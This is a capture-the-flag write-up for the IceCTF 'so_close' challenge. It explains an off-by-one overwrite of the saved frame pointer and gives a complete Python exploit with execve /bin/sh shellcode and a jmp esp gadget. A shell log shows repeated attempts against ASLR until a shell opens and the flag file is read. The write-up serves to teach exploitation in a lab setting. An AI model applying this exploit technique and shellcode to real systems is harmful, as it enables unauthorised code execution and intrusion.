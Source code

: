 ### Solved by superkojiman

This binary is vulnerable to an off-by-one overwrite. In this case, we can overwrite the saved frame pointer, but not the saved return pointer. 

EBP is overwritten in completely_secure() at offset 268. This causes totally_secure() to crash when it returns. ASLR is enabled, but the stack is executable. I decided to store my shellcode on the stack and overwrite just the last byte of EBP with 0x00 to see if I could have it return to a "jmp esp" gadget, which would execut the shellcode. Since ASLR is enabled, we need to run the exploit several times until it works: 

```
#!/usr/bin/env python

from pwn import *
context(os="linux", arch="i386")

jmp_esp = p32(0x804959f)
sc  = "jhh///sh/bin\x89\xe31\xc9j\x0bX\x99\xcd\x80"
pay = jmp_esp + sc

buf = ""

buf += pay * 10                 # fill buffer with jmp esp and shellcode
buf += cyclic(268-len(buf))     # fill up the rest with junk
buf += "\x00"                   # overwrite last byte of ebp to 0x00, 
                                # hopefully we return to our 'jmp esp' payload

print "len buf:", len(buf)
open("in.txt", "w").write(buf)
```

And finally, getting the flag:

```

[ctf-14394@icectf-shell-2016 ~]$ (cat in.txt; cat) | /home/so_close/so_close
something something something..

[1]    29687 broken pipe         ( cat in.txt; cat; ) |
       29689 segmentation fault  /home/so_close/so_close
[ctf-14394@icectf-shell-2016 ~]$ (cat in.txt; cat) | /home/so_close/so_close
something something something..

[1]    29707 broken pipe         ( cat in.txt; cat; ) |
       29708 segmentation fault  /home/so_close/so_close
[ctf-14394@icectf-shell-2016 ~]$ (cat in.txt; cat) | /home/so_close/so_close
something something something..

[1]    29724 broken pipe         ( cat in.txt; cat; ) |
       29725 segmentation fault  /home/so_close/so_close
[ctf-14394@icectf-shell-2016 ~]$ (cat in.txt; cat) | /home/so_close/so_close
something something something..

id
uid=2752(ctf-14394) gid=1003(ctf) egid=1008(so_close) groups=1008(so_close),1003(ctf)
cat /home/so_close/flag.txt
IceCTF{eeeeeeee_bbbbbbbbb_pppppppp_woooooo}
```

